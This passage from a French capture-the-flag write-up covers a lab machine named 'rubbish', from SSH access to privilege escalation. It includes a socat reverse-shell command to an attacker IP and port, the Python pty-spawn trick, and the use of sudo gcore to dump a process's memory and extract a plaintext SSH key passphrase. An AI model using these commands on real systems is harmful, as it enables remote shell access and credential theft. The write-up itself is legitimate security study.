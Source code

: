 Et ça marche !  

```plain
$ ssh autumn@rubbish.dev
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-43-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

192 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Jan  3 17:59:18 2019 from 10.28.12.6
autumn@rubbish:~$ id
uid=1001(autumn) gid=1001(autumn) groups=1001(autumn)
```

A noter aussi que l'utilisation de *sudo* nécessitait (de mémoire) un shell avec un pty. En dehors de la classique astuce Python (*import pty; pty.spawn('/bin/bash')*) on peut aussi uploader un socat et l'utiliser pour obtenir un reverse shell aux petits oignons :  

```bash
./socat tcp-connect:10.254.0.29:7777 exec:"bash -li",pty,stderr,setsid,sigint,sane
```

Finish
------

La suite est toute tracée :  

```plain
autumn@rubbish:~$ sudo -l
Matching Defaults entries for autumn on rubbish:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User autumn may run the following commands on rubbish:
    (root) NOPASSWD: /usr/bin/gcore
```

On peut créer un coredump du process de notre choix. Pourquoi ne pas regarder ce qu'il y a dans la mémoire du process ruby de tout à l'heure (*/opt/ssh\_backup.rb*) ?  

```plain
$ sudo gcore 720
[New LWP 751]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
0x00007f5d83740ed9 in futex_reltimed_wait_cancelable (private=<optimized out>, reltime=0x7ffe2e9013e0, expected=0, futex_word=0x556e26e9b088) at ../sysdeps/unix/sysv/linux/futex-internal.h:142
142 ../sysdeps/unix/sysv/linux/futex-internal.h: No such file or directory.
warning: target file /proc/720/cmdline contained unexpected null characters
Saved corefile core.720
$ strings core.720 |grep ssh
/opt/ssh_backup.rb
sshkeypass = "dumbled0re@998"
/opt/ssh_backup.rb
/opt/ssh_backup.rb
/opt/ssh_backup.rb
/opt/ssh_backup.rb
```